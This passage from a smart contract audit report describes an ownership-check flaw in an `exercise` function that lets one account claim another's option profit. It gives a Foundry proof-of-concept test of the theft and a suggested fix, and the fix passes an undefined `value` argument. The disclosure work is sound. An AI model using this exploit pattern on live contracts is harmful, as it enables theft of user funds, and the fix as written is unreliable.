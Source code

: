 **Impact:** High

**Likelihood:** High

## Description

The `exercise` function flow does not check if the margin account owns the token to be exercised. This allows any account to exercise the options of another account and get its profit.

## Proof of concept

```solidity
function test_exerciseByNotOwner() public {
    uint256 aliceAccountValue = marginTrading.calculateMarginAccountValue(marginAccountID[alice]);
    uint256 bobAccountValue = marginTrading.calculateMarginAccountValue(marginAccountID[bob]);
    uint256 aliceOptionID = optionID[alice];

    vm.prank(alice);
    marginTrading.provideERC721(marginAccountID[alice], address(hegicPositionsManager), aliceOptionID);

    vm.prank(bob);
    marginTrading.exercise(marginAccountID[bob], address(hegicPositionsManager), aliceOptionID);

    uint256 aliceAccountIncrease = marginTrading.calculateMarginAccountValue(marginAccountID[alice]) - aliceAccountValue;
    uint256 bobAccountIncrease = marginTrading.calculateMarginAccountValue(marginAccountID[bob]) - bobAccountValue;
    assert(aliceAccountIncrease == 0);
    assert(bobAccountIncrease == 1_000e6);
}
```

## Recommendations

```diff
    function exercise(uint marginAccountID, address token, uint collateralTokenID) external nonReentrant onlyApprovedOrOwner(marginAccountID)  {
+       require(marginAccount.checkERC721Value(marginAccountID, token, value), "You are not allowed to execute this ERC721 token");
        marginAccount.exercise(marginAccountID, token, BASE_TOKEN, collateralTokenID, msg.sender);
```

# [C-03] Users can borrow tokens without generating debt shares

## Severity

**Impact:** Medium

**Likelihood:** High
